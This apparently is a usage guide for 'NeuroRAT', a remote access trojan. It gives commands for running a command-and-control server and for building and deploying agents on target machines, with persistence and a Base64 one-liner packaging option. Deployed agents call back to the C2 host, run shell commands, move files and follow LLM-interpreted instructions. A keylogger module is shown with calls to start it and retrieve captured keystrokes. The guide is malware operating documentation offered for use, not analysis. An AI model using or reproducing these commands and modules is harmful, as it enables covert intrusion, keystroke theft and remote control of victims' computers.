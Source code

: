 # NeuroRAT Usage Guide

This guide provides detailed instructions on setting up and using NeuroRAT components.

## Table of Contents

1. [Server Setup](#server-setup)
2. [Agent Deployment](#agent-deployment)
3. [Server Monitor](#server-monitor)
4. [Agent Commands](#agent-commands)
5. [Building Custom Agents](#building-custom-agents)
6. [Extension Modules](#extension-modules)
7. [Web Interface](#web-interface)
8. [Command Reference](#command-reference)

## Server Setup

The NeuroRAT server is based on the agent_protocol framework and provides a command and control (C2) infrastructure.

### Automated Setup

Use the provided deployment script:

```bash
./deploy.sh
```

This script sets up the required dependencies and configuration files.

### Manual Setup

1. Start the C2 server:

```bash
python agent_protocol/examples/neurorat_server.py --host 0.0.0.0 --port 8000 --web-port 5000
```

Options:
- `--host`: Bind address (default: 0.0.0.0)
- `--port`: Agent communication port (default: 8000)
- `--web-port`: Web interface port (default: 5000)
- `--auth`: Enable authentication
- `--token`: Authentication token

## Agent Deployment

NeuroRAT agents can be deployed in several ways:

### Using the Launcher

```bash
python neurorat_launcher.py install --server <c2_server_ip> --port <c2_server_port> --persistence
```

Options:
- `--server`: C2 server address
- `--port`: C2 server port
- `--persistence`: Establish persistence (optional)

### Direct Execution

```bash
python neurorat_launcher.py run --server <c2_server_ip> --port <c2_server_port>
```

### Packaged Deployment

1. Build a packaged agent:

```bash
python build_agent.py --server <c2_server_ip> --port <c2_server_port> --type zip --output neurorat_agent
```

Available package types:
- `zip`: Creates a ZIP archive
- `exe`: Creates an executable (requires PyInstaller)
- `base64`: Generates a Base64-encoded one-liner
- `all`: Creates all package types

2. Deploy the packaged agent on the target system.

## Server Monitor

The server monitor provides additional monitoring capabilities for the C2 server.

### Starting the Monitor

```bash
python server_monitor.py --server <c2_server_ip> --port <c2_server_port> --api-port <web_port>
```

Options:
- `--server`: C2 server address
- `--port`: C2 server port (default: 8000)
- `--api-port`: Web API port (default: 5000)
- `--db`: Database file path (default: neurorat_monitor.db)

### Generating Reports

```bash
python server_monitor.py --server <c2_server_ip> --report
```

## Agent Commands

Agents accept various command types through the C2 server:

### LLM Query Command

This is the primary command type for autonomous operation. The agent can process natural language instructions using either local LLM capabilities or a rule-based parser.

Example:
```
collect_info: system
execute: ls -la /tmp
```

### Status Command

Retrieves system information from the agent.

### Shell Command

Executes shell commands on the agent.

### File Command

Transfers files to/from the agent.

## Building Custom Agents

You can customize the agent for specific deployments:

1. Modify `neurorat_agent.py` to add custom capabilities.
2. Create additional agent modules in the `agent_modules` directory.
3. Customize the `llm_processor.py` for specialized autonomous behavior.
4. Package the agent using `build_agent.py`.

## Extension Modules

NeuroRAT supports extension modules that provide additional functionality:

### Keylogger Module

```python
from agent_modules import keylogger

# Start keylogger
result = keylogger.run(action="start")

# Get keylogger status
status = keylogger.run(action="status")

# Get logged keys
log = keylogger.run(action="get_log")

# Stop keylogger
result = keylogger.run(action="stop")
```

### Creating Custom Modules

1. Create a new Python file in the `agent_modules` directory.
2. Implement the module with a `run()` function as the interface.
3. Update `agent_modules/__init__.py` to include your module.

## Web Interface

The C2 server provides a web interface accessible at `http://<server_ip>:<web_port>`.

### Dashboard

The dashboard shows an overview of connected agents, system status, and recent activities.

### Agents View

Lists all connected agents with basic information.

### Agent Details

Shows detailed information about a specific agent, including system information, command history, and file operations.

### Tasks View

Shows all tasks that have been sent to agents.

## Command Reference

### Server Commands

- `./start_server.sh [host]`: Start the C2 server
- `./start_monitor.sh [host]`: Start the server monitor

### Agent Commands

- `python neurorat_launcher.py install --server <ip> --port <port>`: Install the agent
- `python neurorat_launcher.py run --server <ip> --port <port>`: Run the agent directly
- `python neurorat_launcher.py uninstall`: Uninstall the agent

### Build Commands

- `python build_agent.py --server <ip> --port <port> --type <type>`: Build a packaged agent 